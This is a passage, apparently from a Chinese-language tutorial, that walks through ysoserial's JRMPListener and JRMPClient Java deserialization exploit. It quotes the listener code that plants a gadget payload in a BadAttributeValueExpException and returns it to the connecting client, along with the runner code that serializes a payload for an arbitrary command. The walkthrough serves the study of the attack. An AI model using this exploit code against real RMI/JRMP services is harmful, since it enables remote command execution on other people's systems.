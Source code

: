 ```plain

    if ( read.hashCode() == 2 ) {
        ois.readInt(); // method
        ois.readLong(); // hash
        System.err.println("Is DGC call for " + Arrays.toString((ObjID[])ois.readObject()));
    }

    System.err.println("Sending return with payload for obj " + read);
    //向输出流 out 写入一个字节，表示传输操作为返回操作
    out.writeByte(TransportConstants.Return);// transport op
    // 用于将对象写入输出流 out 中
    ObjectOutputStream oos = new JRMPClient.MarshalOutputStream(out, this.classpathUrl);
    // 向 oos 写入一个字节，表示传输操作为异常返回
    oos.writeByte(TransportConstants.ExceptionalReturn);
    // 创建一个新的 UID 对象，并将其写入 oos
    new UID().write(oos);

    BadAttributeValueExpException ex = new BadAttributeValueExpException(null);
    // 关键在于这里，将payload写入到ex对象的val属性，并写入输出流
    Reflections.setFieldValue(ex, "val", payload);
    oos.writeObject(ex);

    oos.flush();
    out.flush();

    this.hadConnection = true;
    synchronized ( this.waitLock ) {
        this.waitLock.notifyAll();
    }
}
```

最后JRMPClient端收到响应的数据

### payloads.JRMPClient

```plain
PayloadRunner.run(JRMPClient.class, args);
```

进入run方法  
**第一步：生成payload**

```plain
byte[] serialized = new ExecCheckingSecurityManager().callWrapped(new Callable<byte[]>(){
    public byte[] call() throws Exception {
        final String command = args.length > 0 && args[0] != null ? args[0] : getDefaultTestCmd();

        System.out.println("generating payload object(s) for command: '" + command + "'");

        ObjectPayload<?> payload = clazz.newInstance();
        final Object objBefore = payload.getObject(command);

        System.out.println("serializing payload");
        byte[] ser = Serializer.serialize(objBefore);
        Utils.releasePayload(payload, objBefore);
        return ser;
}});
```
